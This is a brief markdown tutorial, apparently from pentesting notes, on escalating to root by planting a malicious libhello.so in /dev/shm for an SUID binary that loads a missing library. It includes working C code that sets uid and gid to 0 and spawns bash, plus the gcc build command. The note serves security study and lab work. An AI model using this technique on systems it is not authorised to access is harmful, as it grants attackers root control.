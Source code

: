 # Shared Library Misconfigurations

## Exploitation
We are going to suppose that there's an **SUID binary** called **/usr/bin/welcome**.           
However, the user is unable to run it as the binary cannot find a library file *(let's call it **libhello.so**)* which
should be in `/dev/shm`.                
Since, this directory is in control of the current user, we'll move there and create a `.c` file.
```c
// libhello.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
This code will spawn an interactive shell upon running it.              
Now we need to compile it as a library file and save it to `/dev/shm`
```bash
gcc -shared libhello.c -o libhello.so -fPIC -nostartfiles
```
Upon running `/usr/bin/welcome`, it will spawn an elevated shell.


## References
- [https://tbhaxor.com/exploiting-shared-library-misconfigurations/](https://tbhaxor.com/exploiting-shared-library-misconfigurations/)